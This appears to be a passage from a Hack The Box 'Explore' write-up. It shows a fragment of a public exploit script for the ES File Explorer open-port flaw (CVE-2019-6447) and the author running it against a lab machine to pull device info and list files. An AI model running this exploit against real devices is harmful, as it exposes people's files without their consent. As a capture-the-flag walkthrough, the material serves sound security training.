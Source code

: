 ```python
        for key in keys:
            print(f"{key} : {dic[key]}")
        print('')

def do_listing(cmd):
    response = httpPost(cmd)
    if len(response) == 0:
        keys = []
    else:
```

Looks simple enough, we just point it at the IP of the server and use one of the available commands. Let's try it:

```test
root@kali:~/htb/explore# python3 50070.py getDeviceInfo 10.10.10.247
==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================
name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

Not much info there. Let's look at files:

```text
root@kali:~/htb/explore# python3 50070.py listFiles 10.10.10.247
==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================
name : lib
time : 3/25/20 05:12:02 AM
type : folder
size : 12.00 KB (12,288 Bytes)

name : vndservice_contexts
time : 9/26/21 10:22:10 AM
type : file
size : 65.00 Bytes (65 Bytes)

name : vendor_service_contexts
time : 9/26/21 10:22:10 AM
type : file
size : 0.00 Bytes (0 Bytes)

name : vendor_seapp_contexts
time : 9/26/21 10:22:10 AM
type : file
size : 0.00 Bytes (0 Bytes)
<SNIP>
```
